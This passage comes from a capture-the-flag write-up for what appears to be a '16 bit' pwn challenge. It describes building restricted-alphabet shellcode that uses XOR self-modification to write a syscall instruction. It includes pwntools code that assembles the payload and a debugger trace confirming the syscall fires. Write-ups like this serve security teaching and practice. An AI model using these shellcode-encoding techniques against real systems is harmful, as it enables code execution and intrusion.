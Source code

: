 ### Writing Syscall

The bytes in syscall are also relatively simple to achieve, so it makes sense to focus on those next. 0x0f = 0x39 ^ 0x36 (dh is already set to 0x39), and 0x05 = 0x39 ^ 0xf 0x33 (just do an xor dh, BYTE PTR [rax] immediately after setting BYTE PTR [rax] to 0xf). At this point, I was quite close to the arbitrary bytes that I had place in the middle of my space, so I only had space for the 0x0f write before that. So, after that write, I have some instances of `xor BYTE PTR [rsi], dh;`, which should write to writeable memory whose content no longer matters, then the `xor dh, BYTE PTR [rax]; xor al, 0x39;`. The first instruction gets dh to the desired value, then I can just do some additional XORs to get rax to point at the desired spot, XOR it, and finish the syscall! The relevant portion of code is:
```
#Writing the 0x0f to 0x76:
#Remember dh = 0x39 and al = 0x75 at this point.
shellcode += asm('''
xor al, 0x30;
xor al, 0x33;
xor BYTE PTR [rax], dh;
''')
#Writing the 0x05 to 0x77:
#Remember dh = 0x39 and al = 0x75 at this point.

print(len(shellcode))
shellcode += asm('xor BYTE PTR [rsi], dh;') * ((0x30 - len(shellcode)) // 2)
shellcode += asm('''
xor dh, BYTE PTR [rax]
xor al, 0x39;
''')

shellcode += asm('''
xor al, 0x39;
xor al, 0x30;
xor al, 0x31;
xor BYTE PTR [rax], dh;
''')

payload = base64.b16decode(shellcode + asm('xor BYTE PTR [rsi], dh;') * ((0x70 - len(shellcode)) // 2) + b'A' + b'12' + b'A' + b'14' + b'63')
```
If we run the code, and set bh = 0xf4 in a debugger (or get lucky), we can see that we successfully trigger a read.
```
0x13371337006e                  xor    BYTE PTR [rsi], dh
   0x133713370070                  xor    rdi, rdi
   0x133713370073                  xor    rax, rax
 → 0x133713370076                  syscall
   0x133713370078                  xor    BYTE PTR [rcx+0x30], al
   0x13371337007b                  xor    BYTE PTR [rax], dh
   0x13371337007d                  xor    BYTE PTR [rax], dh
   0x13371337007f                  xor    BYTE PTR [rax], dh
   0x133713370081                  xor    BYTE PTR [rax], dh
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chal_patched", stopped 0x133713370076 in ?? (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x133713370076 → syscall
[#1] 0x556ffa0d7447 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
...
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/CyberOpen22$ python3 16_bit_writeup.py
```